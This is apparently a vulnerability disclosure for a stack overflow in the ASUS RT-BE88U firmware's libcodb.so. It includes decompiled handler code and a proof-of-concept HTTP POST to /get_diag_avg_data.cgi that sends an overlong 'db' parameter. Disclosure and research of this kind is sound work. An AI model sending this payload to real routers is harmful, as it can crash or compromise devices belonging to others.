





In the newest firmware FW_RT_BE88U_300610237094 ,there is a stack overflow vulnerability in /usr/lib/libcodb.so lib file, the ”codb_avg_query_json_field“ function  deal the first parameter, in other words the "db" string content coming from http request not well

Version 3.0.0.6.102_38152

link: https://www.asus.com/networking-iot-servers/wifi-routers/asus-gaming-routers/rt-be88u/helpdesk_bios?model2Name=RT-BE88U


data flow start  from "sub_619EC"

```c
int __fastcall sub_619EC(int a1, FILE *a2)
{
  int v3; // r4
  char *WebVar_1F6A0; // r7
  char *v5; // r9
  char *v6; // r10
  char *v7; // r11
  char *v8; // r0
  const char *v9; // r6
  int v10; // r11
  int v11; // r6
  int v12; // r10
  int v13; // r6
  int v14; // r1
  int v15; // r2
  int v16; // r3
  int v17; // r6
  const char *v18; // r0
  int result; // r0
  int v20; // [sp+Ch] [bp-54h]
  char *v21; // [sp+10h] [bp-50h]
  char *v22; // [sp+14h] [bp-4Ch]
  int v23; // [sp+18h] [bp-48h]
  int v24; // [sp+1Ch] [bp-44h]
  int v25; // [sp+20h] [bp-40h]
  int *v26; // [sp+2Ch] [bp-34h]
  char *v27; // [sp+30h] [bp-30h]
  int v28; // [sp+34h] [bp-2Ch]
  int v29; // [sp+38h] [bp-28h] BYREF

  v3 = json_object_new_object(a1);
  v29 = 0;
  sub_5FB60(v3);
  WebVar_1F6A0 = GetWebVar_1F6A0((int)"db", v3);
  v5 = GetWebVar_1F6A0((int)"content", v3);
  v27 = GetWebVar_1F6A0((int)"node_mac", v3);
  v6 = GetWebVar_1F6A0((int)"ts", v3);
  v7 = GetWebVar_1F6A0((int)"duration", v3);
  v8 = GetWebVar_1F6A0((int)"point", v3);
  if ( *WebVar_1F6A0 && *v5 && *v6 && *v7 && (v9 = v8, *v8) )
  {
    v10 = atoi(v7);
    v11 = atoi(v9);
    v12 = atoi(v6);
    v13 = v12 - v11 * v10;
    v26 = _errno_location();
    v28 = *v26;
    if ( f_exists((int)"/tmp/HTTPD_DEBUG") > 0 || nvram_get_int((int)"HTTPD_DBG", v14, v15, v16) > 0 )
    {
      v20 = 26317;
      v24 = v12;
      v25 = v10;
      v23 = v13;
      v22 = v5;
      v21 = WebVar_1F6A0;
      asusdebuglog(6, "/jffs/HTTPD_DEBUG.log");
    }
    *v26 = v28;
    if ( codb_avg_query_json_field(WebVar_1F6A0, v5, v27, v13, v12, v10, &v29, v20, v21, v22, v23, v24, v25) )
      goto LABEL_10;
    v17 = 200;
  }
  else
  {
    v17 = 4006;
  }
  if ( !v29 )
  {
LABEL_10:
    fputs("{}", a2);
    goto LABEL_16;
  }
  v18 = (const char *)json_object_to_json_string(v29);
  fprintf(a2, v18, v17);
LABEL_16:
  fflush(a2);
  if ( v3 )
    json_object_put(v3);
  result = v29;
  if ( v29 )
    return json_object_put(v29);
  return result;
}
```


There is no any length check for "WebVar_1F6A0", and pass it to callee "codb_avg_query_json_field"




The variable "v39" is the buffer, it's length is only 128 bytes






In dealing function "sub_815C" ，which uses the function ”strncat“ function， but the third parameter is "a1" length, which indicate that user can pass any string without length limitaion, causing stack overflow. If  exploit further, like to overflow some variables(even the caller variables), there maybe lead command execution before canary check




The Poc is as fallows:

```
POST /get_diag_avg_data.cgi HTTP/1.1
Host: 192.168.1.1:8443
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 1
Origin: https://192.168.1.1:8443
Referer: https://192.168.1.1:8443/get_diag_avg_data.cgi
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: close

db=wifi_detectaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&content=tx_diff;rx_diff&duration=60&point=10&ts=1720445781&node_mac=AA:BB:CC:DD:EE:FF
```

the response of ASUS


